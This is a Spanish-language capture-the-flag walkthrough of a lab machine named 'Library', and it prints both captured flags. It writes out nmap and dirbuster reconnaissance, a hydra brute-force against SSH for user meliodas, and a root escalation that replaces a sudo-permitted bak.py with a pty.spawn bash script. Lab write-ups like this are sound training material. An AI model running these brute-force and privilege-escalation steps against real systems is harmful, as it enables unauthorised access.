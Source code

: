 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Imagen](images/Pasted_image_20250221170416.png)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![Imagen](images/Pasted_image_20250221170508.png)

El único interesante puede ser el directorio de  `/images/`

![Imagen](images/Pasted_image_20250221171240.png)

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![Imagen](images/Pasted_image_20250221171339.png)

Que puede ser `meliodas`por como vemos en la página anterior.

![Imagen](images/Pasted_image_20250221171938.png)

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![Imagen](images/Pasted_image_20250221170150.png)

```
ssh meliodas@10.10.31.106
```

![Imagen](images/Pasted_image_20250221170150.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/Pasted_image_20250221170150.png)

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![Imagen](images/Pasted_image_20250221170150.png)

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![Imagen](images/Pasted_image_20250221170150.png)

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![Imagen](images/Pasted_image_20250221170150.png)

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![Imagen](images/Pasted_image_20250221170150.png)

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![Imagen](images/Pasted_image_20250221170150.png)

```
e8c8c6c256c35515d1d344ee0488c617
```












